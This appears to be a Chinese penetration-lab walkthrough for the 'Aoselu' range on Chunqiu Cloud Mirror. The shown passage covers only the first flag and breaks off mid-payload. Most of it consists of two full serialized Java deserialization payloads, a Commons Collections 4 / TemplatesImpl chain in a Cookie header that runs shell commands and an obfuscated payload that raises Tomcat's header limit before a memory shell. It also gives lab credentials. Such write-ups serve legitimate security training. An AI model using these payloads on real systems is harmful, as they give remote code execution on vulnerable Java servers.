+++
title = "春秋云镜Aoselu"
slug = "chunqiu-cloud-mirror-aoselu"
description = "Java反序列化header打入内存马、SeImpersonatePrivilege提权、msf上线、SeBackupPrivilege转储注册表、WriteDacl打RBCD"
date = "2025-08-10T21:25:22"
lastmod = "2025-08-10T21:25:22"
image = ""
license = ""
categories = ["春秋云镜"]
tags = ["Pentest"]
+++

> 本靶场以虚构汽车制造企业 Aoselu 为背景，模拟其真实企业内部网络环境，玩家需要进行信息收集、权限提升、横向移动、服务利用等内网渗透技术，逐步获取4个flag。 目前已通过信息收集获得该企业某员工的邮箱 ：rachel.cook9@aoseluauto.com/!QAZ2wsx

## flag1

先扫描一下，8080端口发现了登录接口，登录进去之后，发现没见过这个系统，可能是自己二开的，抓个包，发现Cookie是Java反序列化一样的payload



测试之后发现这条链子可以打





```http
GET /mail/u/0/ HTTP/1.1
Host: 39.99.158.15:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Upgrade-Insecure-Requests: 1
Referer: http://39.99.158.15:8080/
Accept-Encoding: gzip, deflate
Cookie: userInfo=rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjMAgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnM0L1RyYW5zZm9ybWVyO3hwc3IAQG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuQ29tcGFyYWJsZUNvbXBhcmF0b3L79JkluG6xNwIAAHhwc3IAO29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVyMMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAuW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnM0L1RyYW5zZm9ybWVyO3hwdXIALltMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zNC5UcmFuc2Zvcm1lcjs5gTr7CNo/pQIAAHhwAAAAAnNyADxvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnM0LmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25zdGFudHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwdnIAN2NvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRyQVhGaWx0ZXIAAAAAAAAAAAAAAHhwc3IAP29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuSW5zdGFudGlhdGVUcmFuc2Zvcm1lcjSL9H+khtA7AgACWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7WwALaVBhcmFtVHlwZXN0ABJbTGphdmEvbGFuZy9DbGFzczt4cHVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAFzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVjb2Rlc3QAA1tbQlsABl9jbGFzc3EAfgAUTAAFX25hbWV0ABJMamF2YS9sYW5nL1N0cmluZztMABFfb3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAADaDK/rq+AAAANADUCgAiAGUJADsAZgoADABnCABoCgAMAGkIAGoHAGsJADsAbAoABwBtCgA7AG4KAAwAbwcAcAgAcQoAcgBzCgAMAHQIAHUKAAwAdggAPggAdwgAeAgAeQoAegB7CgB6AHwKAH0AfgoABwB/BwCACgCBAIIKAIEAgwgAhAoAhQCGCACHBwCICgAgAIkHAIoKAIsAjAgAjQgAjggAjwgAkAoAIACRCgAiAJIIAJMKAIsAlAkAOwCVCACWCACXCQA7AJgIAJkKAAcAmgoABwCbCACcCACdCACeCACfCACgCAChCACiCgA7AKMHAKQBAAloZWFkZXJLZXkBABJMamF2YS9sYW5nL1N0cmluZzsBAANjbWQBAAZhY3Rpb24BAAhwb3NpdGlvbgEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAUTHBheWxvYWQvU3ByaW5nRWNobzsBAAVzdGFydAEABXZhcjExAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEADVN0YWNrTWFwVGFibGUHAHAHAEoHAIABAARFY2hvAQAWKExqYXZhL3V0aWwvU2Nhbm5lcjspVgEAB3NjYW5uZXIBABNMamF2YS91dGlsL1NjYW5uZXI7AQAEdmFyMAEAEUxqYXZhL2xhbmcvQ2xhc3M7AQAEdmFyMQEAGkxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAEdmFyMgEAEkxqYXZhL2xhbmcvT2JqZWN0OwEABHZhcjQBAAR2YXI2AQAEdmFyNwEABHZhcjgHAGsHAIgHAKUHAIoBAApFeGNlcHRpb25zAQAIPGNsaW5pdD4BAApTb3VyY2VGaWxlAQAPU3ByaW5nRWNoby5qYXZhDABBAEIMAD8APQwApgCnAQAEZWNobwwAqACpAQAEZXhlYwEAEWphdmEvdXRpbC9TY2FubmVyDAA+AD0MAEEAqgwATwBQDACrAKwBABBqYXZhL2xhbmcvU3RyaW5nAQAHb3MubmFtZQcArQwArgCvDACwALEBAANXSU4MALIAswEAAi9jAQAHL2Jpbi9zaAEAAi1jBwC0DAC1ALYMAGoAtwcAuAwAuQC6DABBALsBABNqYXZhL2xhbmcvRXhjZXB0aW9uBwC8DAC9AL4MAL8AwAEAPG9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLmNvbnRleHQucmVxdWVzdC5SZXF1ZXN0Q29udGV4dEhvbGRlcgcAwQwAwgDDAQAUZ2V0UmVxdWVzdEF0dHJpYnV0ZXMBAA9qYXZhL2xhbmcvQ2xhc3MMAMQAxQEAEGphdmEvbGFuZy9PYmplY3QHAKUMAMYAxwEAQG9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLmNvbnRleHQucmVxdWVzdC5TZXJ2bGV0UmVxdWVzdEF0dHJpYnV0ZXMBAAtnZXRSZXNwb25zZQEAHWphdmF4LnNlcnZsZXQuU2VydmxldFJlc3BvbnNlAQAJZ2V0V3JpdGVyDADIAMUMAMkAygEACWFkZEhlYWRlcgwAywDMDABAAD0BAAZoZWFkZXIBAARib2R5DAA8AD0BAAJcQQwAzQDODADPALEBAAdwcmludGxuAQAFZmx1c2gBAAVjbG9zZQEABEV0YWcBAAZscyAtYWwBAARleGVjAQAEYm9keQwASABCAQAIRWdFZGVFSU8BABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QBAAhoYXNoQ29kZQEAAygpSQEABmVxdWFscwEAFShMamF2YS9sYW5nL09iamVjdDspWgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAB2lzRW1wdHkBAAMoKVoBABBqYXZhL2xhbmcvU3lzdGVtAQALZ2V0UHJvcGVydHkBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAC3RvVXBwZXJDYXNlAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBABFqYXZhL2xhbmcvUHJvY2VzcwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBABBqYXZhL2xhbmcvVGhyZWFkAQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7AQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwEAFWphdmEvbGFuZy9DbGFzc0xvYWRlcgEACWxvYWRDbGFzcwEAJShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9DbGFzczsBAAlnZXRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQARZ2V0RGVjbGFyZWRNZXRob2QBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgEADHVzZURlbGltaXRlcgEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvdXRpbC9TY2FubmVyOwEABG5leHQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0BwDQDABBAEIKANEA0gAhADsA0QAAAAQACAA8AD0AAAAIAD4APQAAAAgAPwA9AAAACABAAD0AAAAEAAEAQQBCAAEAQwAAAC8AAQABAAAABSq3ANOxAAAAAgBEAAAABgAB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
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7


```

准备打内存马，由于header长度会被限制。所以先将header长度限制修改，再打入内存马

```
rO0ABXNyAC7BqsGhwbbBocCuwbXBtMGpwazArsGQwbLBqcGvwbLBqcG0wbnBkcG1waXBtcGllNowtPs/grEDAAJJAAjBs8GpwbrBpUwAFMGjwa/BrcGwwaHBssGhwbTBr8GydAAswYzBqsGhwbbBocCvwbXBtMGpwazAr8GDwa/BrcGwwaHBssGhwbTBr8GywLt4cAAAAAJzcgCEwa/BssGnwK7BocGwwaHBo8GowaXArsGjwa/BrcGtwa/BrsGzwK7Bo8GvwazBrMGlwaPBtMGpwa/BrsGzwLTArsGjwa/BrcGwwaHBssGhwbTBr8GywbPArsGUwbLBocGuwbPBpsGvwbLBrcGpwa7Bp8GDwa/BrcGwwaHBssGhwbTBr8GyL/mE8CuxCMwCAAJMABLBpMGlwaPBr8GywaHBtMGlwaRxAH4AAUwAFsG0wbLBocGuwbPBpsGvwbLBrcGlwbJ0AFrBjMGvwbLBp8CvwaHBsMGhwaPBqMGlwK/Bo8Gvwa3BrcGvwa7Bs8CvwaPBr8GswazBpcGjwbTBqcGvwa7Bs8C0wK/BlMGywaHBrsGzwabBr8Gywa3BpcGywLt4cHNyAIDBr8GywafArsGhwbDBocGjwajBpcCuwaPBr8Gtwa3Br8GuwbPArsGjwa/BrMGswaXBo8G0wanBr8GuwbPAtMCuwaPBr8GtwbDBocGywaHBtMGvwbLBs8CuwYPBr8GtwbDBocGywaHBosGswaXBg8Gvwa3BsMGhwbLBocG0wa/Bsvv0mSW4brE3AgAAeHBzcgB2wa/BssGnwK7BocGwwaHBo8GowaXArsGjwa/BrcGtwa/BrsGzwK7Bo8GvwazBrMGlwaPBtMGpwa/BrsGzwLTArsGmwbXBrsGjwbTBr8GywbPArsGDwajBocGpwa7BpcGkwZTBssGhwa7Bs8Gmwa/BssGtwaXBsjDHl+woepcEAgABWwAawanBlMGywaHBrsGzwabBr8Gywa3BpcGywbN0AFzBm8GMwa/BssGnwK/BocGwwaHBo8GowaXAr8Gjwa/BrcGtwa/BrsGzwK/Bo8GvwazBrMGlwaPBtMGpwa/BrsGzwLTAr8GUwbLBocGuwbPBpsGvwbLBrcGlwbLAu3hwdXIAXMGbwYzBr8GywafArsGhwbDBocGjwajBpcCuwaPBr8Gtwa3Br8GuwbPArsGjwa/B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YW5nL0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlBwB1BwB2BwBZBwBkBwBxAQAIPGNsaW5pdD4BAApTb3VyY2VGaWxlAQAeTW9kaWZ5VG9tY2F0TWF4SGVhZGVyU2l6ZS5qYXZhDAAnACgBABBqYXZhL2xhbmcvVGhyZWFkAQAKZ2V0VGhyZWFkcwEAD2phdmEvbGFuZy9DbGFzcwwAdwB4BwB1DAB5AHoBABBqYXZhL2xhbmcvT2JqZWN0DAB7AHwMAH0AfgEABGh0dHAHAH8MAIAAgQEACEFjY2VwdG9yDACCAIMMAIQAhQcAdgwAhgCHAQAeamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uAQAGdGhpcyQwDACIAIMBAC9vcmcvYXBhY2hlL2NveW90ZS9odHRwMTEvQWJzdHJhY3RIdHRwMTFQcm90b2NvbAEABTQwOTYwBwCJDACKAIsMAIwAjQEAIm9yZy9hcGFjaGUvY295b3RlL0Fic3RyYWN0UHJvdG9jb2wMAIoAjgcAjwEAM29yZy9hcGFjaGUvdG9tY2F0L3V0aWwvbmV0L0Fic3RyYWN0RW5kcG9pbnQkSGFuZGxlcgwAkAAoAQATamF2YS9sYW5nL0V4Y2VwdGlvbgwAkQAoDAAuACgBAAhFZ0VkZUVJTwEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkAQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQANc2V0QWNjZXNzaWJsZQEABChaKVYBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBAAdnZXROYW1lAQAUKClMamF2YS9sYW5nL1N0cmluZzsBABBqYXZhL2xhbmcvU3RyaW5nAQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBABBnZXREZWNsYXJlZEZpZWxkAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQADZ2V0AQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBAA1nZXRTdXBlcmNsYXNzAQARamF2YS9sYW5nL0ludGVnZXIBAAd2YWx1ZU9mAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0ludGVnZXI7AQADc2V0AQAnKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvT2JqZWN0OylWAQAWKEkpTGphdmEvbGFuZy9JbnRlZ2VyOwEAK29yZy9hcGFjaGUvdG9tY2F0L3V0aWwvbmV0L0Fic3RyYWN0RW5kcG9pbnQBAAdyZWN5Y2xlAQAPcHJpbnRTdGFja1RyYWNlAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAcAkgwAJwAoCgCTAJQAIQAmAJMAAAAAAAMAAQAnACgAAQApAAAALwABAAEAAAAFKrcAlbEAAAACACoAAAAGAAEAAAAKACsAAAAMAAEAAAAFACwALQAAACoALgAoAAEAKQAAA1sAAwANAAABSBICEgMDvQAEtgAFSyoEtgAGKgEDvQAHtgAIwAAJwAAJTAM9HCu+ogEZKxwytgAKEgu2AAyZAQUrHDK2AAoSDbYADJkA9yscMrYADhIPtgAQTi0EtgARLSscMrYAEjoEAToFGQS2AA4SE7YAEDoFpwAROgYZBLYADhIVtgAQOgUZBQS2ABEZBRkEtgASOgYBOgcZBrYADhIWtgAQOgenACs6CBkGtgAOtgAXEha2ABA6B6cAFzoJGQa2AA62ABe2ABcSFrYAEDoHGQcEtgARGQcZBrYAEjoIGQi2AA4SGLYAEDoJGQkEtgAREhkSGrYAEDoKGQoEtgARGQoZCRkItgASEhu4ABy2AB0SHhIftgAQOgsZCwS2ABEZCxkJGQi2ABIDuAAgtgAdGQjAACE6DBkMuQAiAQCnAAmEAgGn/uenAAhLKrYAJLEABABiAG4AcQAUAJEAnQCgABQAogCxALQAFAAAAT8BQgAjAAMAKgAAAKYAKQAAABAADAARABEAEgAhABMAKQAUAEUAFQBRABYAVgAXAF8AGABiABoAbgAdAHEAGwBzABwAfwAeAIUAHwCOACAAkQAiAJ0AKQCgACMAogAlALEAKAC0ACYAtgAnAMgAKgDOACsA1wAsAOMALQDpAC4A8gAvAPgAMAEJADEBEgAyARgAMwEoADQBLwA1ATYANgE5ABMBPwA7AUIAOQFDADoBRwA8ACsAAACsABEAcwAMAC8AMAAGALYAEgAxADAACQCiACYAMgAwAAgAUQDoADMANAADAF8A2gA1ADYABABiANcANwA0AAUAjgCrADgANgAGAJEAqAA5ADQABwDXAG